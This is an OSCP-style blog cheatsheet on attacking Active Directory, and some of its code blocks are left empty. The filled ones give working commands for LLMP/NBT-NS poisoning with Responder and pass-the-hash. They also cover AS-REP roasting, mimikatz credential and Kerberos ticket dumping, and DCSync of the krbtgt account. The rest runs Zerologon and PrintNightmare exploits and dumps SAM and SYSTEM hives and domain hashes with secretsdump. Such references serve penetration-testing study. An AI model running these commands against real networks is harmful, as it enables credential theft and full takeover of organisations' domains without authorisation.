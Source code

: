 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()

```


###### 389 LDAP query's
```
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b '' -s base '(objectclass=*)'
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b 'DC=DOMAIN,DC=LOCAL'
```

##### 3.. RPC Enumeration
```

```

###### Responder
```
> responder -I eth0 -rdw
```

###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```

###### PowerView
```
> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```


###### Kerberos ~ AS-REP Roasting
```
> impacket-GetNPUsers -format john -dc-ip 10.10.10.10 domain.local/username
>
```

###### Kerberos ~ TGS
```

```

###### Kerberos ~ Rubeus syntax
```

```

###### Kerberos with mimikatz
```
> sekurlsa::tickets
> kerberos::list /export
```


###### Other Kerberos Commands
```
> klist

> python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname


```

##### DS-SYNC attacks
```
with impacket-secretsdump:

with mimikatz:

> Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
> lsadump::dcsync /domain:domain.local /user:Administrator
```


###### Bloodhound
```
Bloodhound documentation:
https://bloodhound.readthedocs.io/en/latest/

Installation:
> sudo apt install bloodhound
> sudo pip3 install bloodhound

First, gather the data with an ingestor, either the bloodhound-python script from fox-it or SharpHound.Then import the json files in the neo4j database.
> (sudo) neo4j console
starts on localhost:7687

Example bloodhound-python:
> bloodhound-python -c All -u 'username' -p 'password' -gc "MACHINE.domain.local" -dc "MACHINE.domain.local" -d "domain.local" -ns 10.10.10.10

Example sharphound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
> import-module .\SharpHound.ps1
> Invoke-Bloodhound -c All [-d domain.local]
Or at once:
> powershell -exec bypass -command "& { Import-Module SharpHound.ps1; Invoke-Bloodhound -c All; }"
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```


###### Zerologon (probably going to break the domain...)
```
> python3 49871.py -do check -target NETBIOSNAME -ip 10.10.10.10
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### NoPac
```
https://github.com/cube0x0/noPac
```


###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

